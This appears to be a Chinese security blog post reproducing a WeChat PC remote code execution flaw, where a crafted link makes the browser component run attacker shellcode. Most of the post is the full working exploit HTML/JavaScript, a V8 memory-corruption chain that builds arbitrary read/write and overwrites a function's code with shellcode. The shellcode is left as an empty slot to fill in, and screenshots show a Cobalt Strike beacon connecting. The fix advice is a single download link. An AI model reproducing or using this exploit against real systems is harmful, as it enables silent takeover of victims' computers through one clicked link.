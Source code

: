 
# 微信RCE 复现

[↓↓↓](javascript:)  
  
锋刃科技  
  
[↑↑↑](javascript:)

*2021-04-23 12:59*

漏洞概述

攻击者只需要通过微信发送一个特制web链接，用户一旦点击链接，微信PC(windows)版进程wechatweb.exe会加载shellcode执行，整个过程无文件落地，无新进程产生，攻击者可以直接获取目标机器权限。

环境搭建

```plain
微信PC版本 2.9.0.123
```

  

![图片](assets/1700190815-be2cc6195423d878a11785fd7474dfdd.png)

漏洞复现

生成payload

![图片](assets/1700190815-9aeca14db308b6e92fb37c5972aa77c2.png)

![图片](assets/1700190815-65259f860672c1aa0f140a897f354c56.png)

将’\\’批量替换成’,0′

再放置shellcode

![图片](assets/1700190815-62d71206d753f67cdd9104fa13d91caa.png)

![图片](assets/1700190815-15b67da0e64bc242c74d36c723238a11.png)

  

把链接通过微信发送，然后我们点击链接，cs上线成功。

![图片](assets/1700190815-4cc1fa8628f7c5efb4e9864ff2077607.png)

![图片](assets/1700190815-8516cc1d0c67597f313df25c5b64cba2.png)

源码

```plain
<html>
<head>
<metahttp-equiv="Content-Type"content="text/html;charset=utf-8">
</head>
<h1>test</h1>
<script>
ENABLE_LOG = true;
IN_WORKER = true;
// run calc and hang in a loop
var shellcode = [];//shellcode替换成自己的 注意是x86的

function print(data) {
}
var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});
for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}
var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}
function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}
function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }
    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }
    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }
    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }
    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}
function trigger() {
    var oob = oobAccess();
    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));
    var kCodeInsOffset = 0x1b;
    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));
    oob.setBytes(code_addr, shellcode);
    target_function(0);
}
try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
</script>
</html>
```

   

修复建议

官方下载链接：

```plain
https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe
```
